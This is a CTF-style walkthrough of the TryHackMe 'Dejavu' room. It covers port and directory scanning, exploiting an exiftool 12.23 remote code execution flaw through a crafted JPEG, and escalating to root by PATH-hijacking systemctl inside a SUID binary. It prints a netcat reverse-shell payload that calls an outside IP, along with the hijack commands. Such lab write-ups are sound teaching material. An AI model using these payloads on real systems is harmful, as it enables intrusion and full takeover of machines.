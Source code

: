 ```yaml
---
title: THM Dejavu writeup
description: Tryhackme Dejavu room writeup
authors: ["shivam"]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/db58ef402783e8d637df6c04ea9e6142.png
slug: dejavu
tags: ["exiftool", "SUID", "PATH"]
---
```


Hello everyone,

Today we are going to solve Dejavu room from tryhackme. we will see about exiftool RCE and privilege escalation with PATH variable and systemctl SUID.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/db58ef402783e8d637df6c04ea9e6142.png)

<!--truncate-->

## Nmap results

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 30:0f:38:8d:3b:be:67:f3:e0:ca:eb:1c:93:ad:15:86 (RSA)
|   256 46:09:66:2b:1f:d1:b9:3c:d7:e1:73:0f:2f:33:4f:74 (ECDSA)
|_  256 a8:43:0e:d2:c1:a9:d1:14:e0:95:31:a1:62:94:ed:44 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Dog Gallery!
```

## Gobuster results

```bash
===============================================================
/favicon.ico          (Status: 200) [Size: 21665]
/index.html           (Status: 301) [Size: 0] [--> ./]
/upload               (Status: 301) [Size: 0] [--> upload/]
===============================================================
```

## Enumration

--> I found this page on port `80`

![](Attachments/Pastedimage20220215131947.png)

--> And when we click on any photo then it redirects us to `/dog/getexifdata` and for caption and title it was using `/dog/getmetadata` path which i found from burpsuite.

--> Also i found the version of `exiftool` from response from `getexifdata` route

![](Attachments/Pastedimage20220215132320.png)

--> So i searched for `exiftool version 12.23 exploit` and found [this](https://github.com/OneSecCyber/JPEG_RCE "https://github.com/OneSecCyber/JPEG_RCE") repo which describes the exploit in detail

So i added the reverse shell in the image file using exiftool

```bash
exiftool -config eval.config runme.jpg -eval='system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.10 4444 >/tmp/f")'
```

--> After that i went to `/upload/` where we can upload our image so i uploaded my payload and started the netcat listener on port `4444`

![](Attachments/Pastedimage20220215133145.png)

Now let's just click on the uploaded image to let the server see the exifdata of image and we can get the reverse shell.

And boom i got the reverse shell!

![](Attachments/Pastedimage20220215132900.png)

## Privesc

--> This file contains one SUID binary called `serverManager`. when we run that binary it asks for input from `0` or `1`

```
0 -	Get server status
1 -	Restart server
```

--> so here it's restarting the server means it must be running as root SUID binary. so we can use this as privesc factor.

So let's see the source code provided with it.

![](Attachments/Pastedimage20220215133406.png)

--> I found that it's using `systemctl` so let's change the path variable for that and get the root shell!

So follow these commands:

```
echo "/bin/bash -p" > systemctl
chmod 777 systemctl
export PATH=.:$PATH
```

And now if you run the `serverManager` binary and select `0` then you will get root shell!!

--> And we pwned the machine!

![](Attachments/Pastedimage20220215133710.png)
